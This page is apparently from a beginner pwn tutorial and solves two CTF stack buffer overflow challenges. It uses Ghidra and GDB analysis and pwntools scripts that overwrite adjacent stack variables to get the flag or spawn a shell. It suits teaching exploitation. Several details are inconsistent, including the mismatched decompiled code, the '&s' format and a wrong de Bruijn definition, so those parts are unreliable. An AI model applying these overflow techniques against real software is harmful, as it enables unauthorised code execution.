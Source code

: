 ```yaml
---
title: Stack Buffer Overflow Practice Solutions
date: 0006-01-01T00:00:08Z
draft: false
description: Pwn for Fun and Profit is a progressive tutorial series that aims to be noob-friendly enough for anyone to dive in, and equip them with the skills to come out with substantial knowledge on The Art of Pwn.
toc: false
---
```


Before you read the challenge solution below, you should have at least attempted the challenges in the [previous page](/pwn/stack/bof).

## WhiteHacks 2021 - Puddi Puddi

#### Overview

Decompiling the binary in Ghidra, we obtain the following decompiled code:

```c
void print_flag(void)

{
  FILE *__stream;
  size_t __nmemb;
  char *__s;
  char *flag;
  size_t data_size;
  FILE *file;

  flag = fopen("flag.txt","rb");
  if (flag == (FILE *)0x0) {
    puts("flag.txt not found!");
    exit(1);
  }

  return;
}

int main(void)

{
  int iVar1;
  char input [32];
  char size [5];

  size = 0x4147454d; // MEGA
  size[4] = '\0';

  printf("Do you like pudding? (Y/N) => ");
  scanf("&s", input);
  puts("PUDDI PUDDI!");
  sleep(1);
  puts("PUDDI PUDDI!");
  sleep(1);
  puts("SUGOKU DEKKAI...");
  sleep(1);
  iVar1 = strcmp(size,"GIGA");
  if (iVar1 != 0) {
    puts("Oops we ran out of pudding...");
    exit(1);
  }

  puts(gigabanner);

  print_flag();
  return 0;
}

```

This is a rather simple binary with a simple logic to follow:

1. It takes in an `input[32]` with `scanf("%s", input)` which does not limit the size of our input **vulnerable!!**
2. It compares `size[5] = MEGA` with `GIGA` in `strcmp(size, "GIGA")`.
3. If ``size[5] == GIGA``, it calls `print_flag()` which prints the flag.
4. If ``size[5] != GIGA``, it calls `exit(1)`, which exits the program immediately.

#### Thought Process

As you can see, `size[5] = 0x4147454d (MEGA in hex)` and `input[32]` was initialized at the start of the main function.

However, the program sets ``size[5] = MEGA``, and there is no function that allows us to modify `size[5]`.

Rightfully, we should **never** be able to write to `size[5]` and pass the check.

This is where buffer overflow comes in.

Our objective is to overflow the `input[32]` buffer to overwrite into `size[5]`.

#### Exploitation

Looking at the stack layout in Ghidra, we can easily calculate our offset.

![image](/lawofpwn/images/ghidrastackpuddi.png)

`0x38 - 0xd = 43`

Now we can craft our script:

```py
from pwn import * # import PwnTools Library

p = process('./puddi') # start process puddi
p.sendline("A"*43 + "GIGA") # send input to process
p.interactive() # manual control over process
```

If the flag successfully prints, you win!

<br><br>

## dCTF 2021 - Pinch Me

#### Overview
```c

void main(void)

{
  alarm(10);
  vuln();
  return 0;
}


void vuln(void)

{
  char input [24];
  int local_10;
  int objective;

  objective = 0x1234567;  // 0x1234567
  local_10 = -0x76543211; // 0x89abcdef

  puts("Is this a real life, or is it just a fanta sea?");
  puts("Am I dreaming?");

  fgets(input,100,stdin);
  if (local_10 == 0x1337c0de) {
    system("/bin/sh");
  }
  else {
    if (objective == 0x1234567) {
      puts("Pinch me!");
    }
    else {
      puts("Pinch me harder!");
    }
  }
  return;
}

```

Logic of this binary is simple

1. `main()` calls `vuln()`
2. `vuln()` initializes 3 variables, `input[24]`, `objective` and `local_10`.
3. `vuln()` takes in an input of size 100 with `fgets(input,100,stdin)`
4. If `objective == 0x1337c0de`, we get a shell.

#### Thought Process

So once again, we are allowed to input 100 bytes into a 24 byte variable, giving us a buffer overflow.

And our objective is to make `objective == 0x1337c0de` in order to obtain shell.

We can easily achieve this with a BOF exploit.

#### Exploitation

Instead of looking at the stack in Ghidra this time, let's do this in our debugger, GDB.

First, we open the binary with GDB

``gdb <binary>``

We can see our assembly instructions by disassembling functions

``disassemble vuln``

```asm
0x0000000000401193 <+65>:       call   0x401060 <fgets@plt>
0x0000000000401198 <+70>:       cmp    DWORD PTR [rbp-0x8],0x1337c0de
0x000000000040119f <+77>:       jne    0x4011af <vuln+93>
```

We want to break after our input at `vuln +70` with

`break *vuln+70`

After setting our breakpoint, we run the program.

``run``

We key in an input with different characters after every 4 byte.

`1111222233334444555566667777888899990000`

This is known as a de brujin sequence.

> A de Bruijn sequence with is a binary sequence of length 2k such that every consecutive sequence of 2k digits appears exactly once in the whole sequence.

After our input, we immediately hit our breakpoint, which we previously set after our input.

We can now examine what is being compared against `0x1337c0de` in the binary.

Simply do `x $rbp-0x8` since the assembly is comparing `[rbp-0x8], 0x1337c0de`.

```asm
pwndbg> x $rbp-0x8
0x7fffffffe518: 0x37373737
```

We see that `0x37373737` is being compared against `0x1337c0de`.

`0x37373737` is hex for `7777`. This means that our buffer is actually `6*4=24`.

With our offset, we can write our script.

However, you have to understand that binaries actually store `integers` in `little-endian` format.

> Little-endian is an order in which the "little end" (least significant value in the sequence) is stored first.

This means that we have to reverse the bytes of `0x1337c0de` after our 24-byte buffer.

Thankfully, PwnTools got us covered, with `p32()` and `p64()` which allows us to pack our integers into `32-bit little-endian` and `64-bit little-endian`. Respectively.

```py
p = process('./pinch_me')

p.sendline(b"A"*24 + p64(0x1337c0de))
p.interactive()
```

If you popped a shell from the binary, you win!

